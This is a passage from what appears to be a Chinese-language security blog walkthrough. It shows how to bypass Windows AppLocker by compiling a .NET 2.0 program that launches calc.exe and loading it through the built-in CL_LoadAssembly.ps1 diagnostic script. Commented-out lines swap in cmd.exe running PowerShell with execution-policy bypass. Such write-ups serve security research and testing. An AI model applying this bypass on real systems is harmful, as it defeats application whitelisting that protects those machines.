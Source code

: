 2、修改代码，内容如下：

```
namespace ConsoleApplication5
{
    public class Program
    {
        public static void test()
        {
            System.Diagnostics.Process p = new System.Diagnostics.Process();
            p.StartInfo.FileName = "c:\\windows\\system32\\calc.exe";
//            p.StartInfo.FileName = "c:\\windows\\system32\\cmd.exe";
//            p.StartInfo.Arguments = @"/c ""powershell.exe"" -ep bypass -c $host";   
            p.Start();
        }
        static void Main(string[] args)
        {
            test();
        }
        
    }
}
```

**注：**

`class Program`前需要添加访问修饰符`public`,添加Method test()同样要加访问修饰符`public`

3、修改目标框架为.net 2.0，编译生成ConsoleApplication5，保存在c:\6下

4、powershell执行如下代码：

```
cd C:\windows\diagnostics\system\AERO
import-module .\CL_LoadAssembly.ps1
LoadAssemblyFromPath ..\..\..\..\6\ConsoleApplication5.exe
[ConsoleApplication5.Program]::test()
```

**注：**

`..\..\..\..\`能够定位到`c:\`

`[ConsoleApplication5.Program]::test()`需要同程序内的代码对应，格式为：`[$namespace.$class]::$fuction()`

成功执行calc.exe，绕过applocker

## 0x03 复现Casey Smith的方法
---


测试系统： Win7 x86

开启Applocker

代码参考地址：

https://gist.github.com/netbiosX/5f19a3e8762b6e3fd25782d8c37b1663
